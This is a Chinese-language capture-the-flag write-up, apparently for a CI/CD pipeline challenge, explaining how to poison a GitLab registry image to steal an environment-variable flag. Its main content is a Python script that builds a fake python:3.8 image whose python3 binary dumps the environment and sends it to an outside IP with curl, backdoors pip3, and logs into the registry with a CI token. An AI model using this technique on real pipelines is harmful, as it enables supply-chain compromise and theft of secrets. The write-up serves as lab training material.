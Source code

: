 ```bash
```

最后会 build 当前的 dockerfile 并构建容器，flag11 是这个 web 容器中的环境变量。而 nest-of-gold 的 dockerfile 中拉取的镜像是 gitlab 仓库中的：

```bash
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```

因此利用 awesome-app 的 pipeline 执行我们注入的恶意代码，即将恶意的镜像推送到 gitlab，从而污染了 image，实现 flag 的盗取。

修改 greet.py 的内容，执行将获取 flag 的命令来替代镜像中的 python3 命令。官方 wp 里的不太对，官方的命令在执行`RUN pip3 install -r requirements.txt`的时候就会 curl，但是这个时候 flag 还没有注入到环境中，而且

```bash
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/python3.bak
RUN mv /usr/local/bin/pip3 /usr/local/bin/pip3.bak
COPY pip3 /usr/local/bin/pip3
"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env > /tmp/flag.txt;
curl http://10.207.127.144:39502/ -F file=@/tmp/flag.txt
"""
PIP3 ="""#!/bin/bash
/usr/local/bin/pip3.bak install -r requirements.txt
mv /usr/local/bin/python3.bak /usr/local/bin/python3
"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    with open('pip3','w') as f:
        f.write(PIP3)
    # Grant our script execution permission
    run('chmod +x python3')
    run('chmod +x pip3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
```